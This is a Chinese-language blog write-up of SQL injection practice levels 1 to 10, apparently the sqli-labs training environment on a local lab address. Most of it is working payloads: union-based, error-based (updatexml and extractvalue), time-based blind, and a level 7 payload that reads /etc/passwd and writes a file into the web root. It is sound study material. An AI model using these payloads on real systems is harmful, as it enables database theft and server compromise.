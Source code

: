 ```yaml
---
layout: post
title: SQL闯关1-10
date: 2018-10-30
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```

### 第一题：

 - 第一题是萌新题目。啥子都没有过滤。就可以直接注出来(我自己是到文件中显示了SQL语句)可以看的到十单引号闭合
 - 那么就直接使用 order by 猜解字段数量, 猜解字段数量的时候建议使用二分法来进行猜解
 - Payload：SELECT * FROM users WHERE id = ‘1’ order by 3 — b ‘ LIMIT 0,1
 - 猜解出来了三个字段。接着使用union 来进行确认回显的位置(需要前面查询不到数据)
 - Payload：SELECT * FROM users WHERE id='1123' union select 1,2,3 -- b' LIMIT 0,1
 - 接下来就可以使用information_schema数据库来进行查找我们需要的数据了
 - 查询处用户是谁。还有数据库的名字
 - Payload: SELECT * FROM users WHERE id='1123' union select 1,user(),database() -- b' LIMIT 0,1
 - 使用不存在的变量,然后爆出数据名字
 - Payload：SELECT * FROM users WHERE id='11' union select 1,a(),3 -- b' LIMIT 0,1 
![iReT2T.png](https://s1.ax1x.com/2018/10/30/iReT2T.png)
 - 常用的一些mysql变量：
| name  | Effect |
| ------------- | ------------- |
| VERSION()  | 显示版本信息  |
| @@VERSION()  | 显示版本信息  |
| @@GLOBAL.VERSION()  | 显示版本信息  |
| User()  | 显示当前用户  |
| @@HOSTNAME  | 显示主机名  |
| System_user()  | 显示当前用户  |
| Current_user  | 显示当前用户  |
| Session_user()  | 显示当前用户  |
| Schema()  | 显示当前数据库  |

[![iRe7xU.png](https://s1.ax1x.com/2018/10/30/iRe7xU.png)](https://imgchr.com/i/iRe7xU)
 - 利用information进行查询处数据库
 - Payload：SELECT * FROM users WHERE id='11' union select null,table_name,null from information_schema.tables limit 0,1 -- b' LIMIT 0,1
 - 第一题就说完了。如果需要拿shell的话。是需要知道绝对路径的

### 第二题：

 - 第二题是int类型的注入。直接使用：payload：SELECT * FROM users WHERE id=123 union select 1,database(),3 -- b LIMIT 0,1
 - 直接跟上一个union 就爆出来了数据库名字
[![iReqr4.png](https://s1.ax1x.com/2018/10/30/iReqr4.png)](https://imgchr.com/i/iReqr4)

### 第三题：
 - 第三题是进行括号闭合。那么只需要使用括号闭合前面的就可以进行注入，因为没有其他的过滤
Payload：http://192.168.197.129/sql/Less-3/index.php?id=123') union select 1,database(),3 — b
 - SQL语句：SELECT * FROM users WHERE id=('123') union select 1,database(),3 -- b') LIMIT 0,1
[![iReLqJ.png](https://s1.ax1x.com/2018/10/30/iReLqJ.png)](https://imgchr.com/i/iReLqJ)

### 第四题：
 - 第四题看了下SQL语句发现就是双引号加上了括号闭合
 - payload：http://192.168.197.129/sql/Less-4/index.php?id=123") union select 1,database(),3 -- b
 - SQL语句：SELECT * FROM users WHERE id=("123") union select 1,database(),3 -- b") LIMIT 0,1
![iReXZ9.png](https://s1.ax1x.com/2018/10/30/iReXZ9.png)

### 第五题：
 - 第五题是一个盲注。没有回显的那种。我使用的方法就是查询一个不存在的变量。然后就爆出了数据库名称
但是这种方法就显的有点鸡肋了。我就使用了updatexml这个函数来进行注入
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b
 - SQL语句：SELECT * FROM users WHERE id='123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b' LIMIT 0,1
![iRmPMD.png](https://s1.ax1x.com/2018/10/30/iRmPMD.png)
 - 还可以利用extractvalue来进行注入。 其中updatexml只能够返回32为数据 结合substr能够达到很好的效果
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b
 - SQL语句：SELECT * FROM users WHERE id='121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b' LIMIT 0,1
![iRmFqH.png](https://s1.ax1x.com/2018/10/30/iRmFqH.png)

### 第六题：
 - 第六题同样也就是盲注。相比于上一题也就是使用的双引号闭合
 - payload：http://192.168.197.129/sql/Less-6/index.php?id=1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- hacker
 - SQL：SELECT * FROM users WHERE id="1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b" LIMIT 0,1
![iRmEdA.png](https://s1.ax1x.com/2018/10/30/iRmEdA.png)

### 第七题：
 - 第七题是需要插入文件。可以直接使用outfile这个函数来进行注入
 - 在离表哥哪里学习到了一个骚姿势。就是配合load_file函数就可以达到把主机上的文件任意读取
 - payload：http://192.168.197.129/sql/Less-7/index.php?id=112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack
 - SQL语句：SELECT * FROM users WHERE id=(('112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack')) LIMIT 0,1
![iRmmJP.png](https://s1.ax1x.com/2018/10/30/iRmmJP.png)

### 第八题：
 - 同样是盲注。只不过用不了报错注入。因为不会提示错误信息。但是返回还是有正确的和错误的。所以还是能够使用时间注入来进行注入的
 - 我自己是使用的时间注入来进行测试的（也是能够使用盲注if）
 - Payload：http://192.168.197.129/sql/Less-8/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL：SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRmlLQ.png](https://s1.ax1x.com/2018/10/30/iRmlLQ.png)

### 第九题：
 - 这一题就必须使用时间注入了。因为我查看了源代码发现了。真和否返回的结果都是一样的。所以只能够基于时间来进行注入。也是单引号闭合,直接使用上一题的payload就可以了
 - Payload:http://192.168.197.129/sql/Less-9/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL:SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRm8ds.png](https://s1.ax1x.com/2018/10/30/iRm8ds.png)

### 第十题：
 - 这一题就是双引号闭合。同样的也是使用时间注入.
 - Payload:http://192.168.197.129/sql/Less-10/index.php?id=12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) — hcaker
 - SQL:SELECT * FROM users WHERE id="12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) -- hcaker" LIMIT 0,1
![iRmYiq.png](https://s1.ax1x.com/2018/10/30/iRmYiq.png)

#### 剩下的尽快补上。。。。。。










